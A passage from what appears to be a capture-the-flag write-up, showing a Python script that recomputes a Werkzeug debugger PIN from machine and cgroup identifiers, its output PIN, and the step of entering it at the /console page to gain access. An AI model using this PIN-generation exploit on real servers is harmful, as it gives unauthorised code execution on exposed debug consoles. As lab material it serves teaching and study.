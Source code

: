 ```python
    with open("cgroup", "rb") as f:
        machine_id += f.readline().strip().rpartition(b"/")[2]
except OSError:
    pass

private_id = machine_id.decode()

private_bits = [
        private_addres,
        private_id
]

h = hashlib.sha1() # Newer versions of Werkzeug use SHA1 instead of MD5
for bit in chain(probably_public_bits, private_bits):
        if not bit:
                continue
        if isinstance(bit, str):
                bit = bit.encode('utf-8')
        h.update(bit)
h.update(b'cookiesalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
        h.update(b'pinsalt')
        num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
        for group_size in 5, 4, 3:
                if len(num) % group_size == 0:
                        rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                                                  for x in range(0, len(num), group_size))
                        break
        else:
                rv = num

print("Pin: " + rv) 

```

now running
```shell
> python3 rawe-exploit.py
Pin: 574-249-862

```

We navigate to `http://<IP>/console` and submit our pin, granting access.
